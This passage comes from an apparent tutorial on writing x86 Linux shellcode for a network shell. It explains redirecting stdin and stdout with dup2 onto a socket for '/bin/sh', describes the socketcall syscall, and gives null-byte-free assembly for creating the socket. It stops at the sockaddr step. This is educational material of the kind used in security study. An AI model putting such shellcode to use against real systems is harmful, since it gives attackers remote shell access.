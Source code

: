 At this point we perform two dup2 syscalls, which duplicate stdin and stdout on that file descriptor, so once we execute `/bin/sh` we can control it over the connection.


### socketcall
A large number of the functions used in connecting via sockets is exposed via a single syscall known as the socketcall.  It takes the form:
```c
int socketcall(int call, unsigned long *args);
```

From the Linux [man pages](http://man7.org/linux/man-pages/man2/socketcall.2.html):
> socketcall()  is  a  common  kernel  entry  point for the socket system
       calls.  call determines which socket function to invoke.   args  points
       to a block containing the actual arguments, which are passed through to
       the appropriate call.

All parameters to the socketcall's are passed via the stack, so we generally push those to the stack, but call the `socketcall` syscall with the appropriate registers set.  It's syscall number if `0x66`.

Individual call numbers are found in [/usr/include/linux/net.h](https://github.com/torvalds/linux/blob/master/include/uapi/linux/net.h).



### Socket(AF_INET, SOCK_STREAM, 0)
Firstly we set up a socket.  All connections will act through this.

```
xor eax, eax  
xor ebx, ebx  
mov al, 0x66  
mov bl, 1  
  
xor ecx, ecx  
push ecx 			; protocol -> 0  
push 1 				; SOCK_STREAM  
push 2				;AF_INET  
mov ecx, esp  
  
int 0x80  
```

At the first stage of the shellcode we `xor` the `eax` and `ebx` registers.  This is merely to 0 them out but without the presence of null-bytes.  The syscall value for `socketcall` is `0x66` so we move that value into `al` again to avoid null-bytes.  The `socket` call of socketcall requires `1` within `ebx` so we mov that into `bl`.

We set `ecx` to 0 so it can act as our protocol by `xor`ing it with itself.`AF_INET` is equal to 2 and `SOCK_STREAM` is equal to 1 and the protocol is just 0.  Syscall parameters are pushed onto the stack in reverse order (so that they're read off in the correct order) so we push the protocol, `SOCK_STREAM` and `AF_INET` in that order.  

### sockaddr = {AF_INET, port, address}
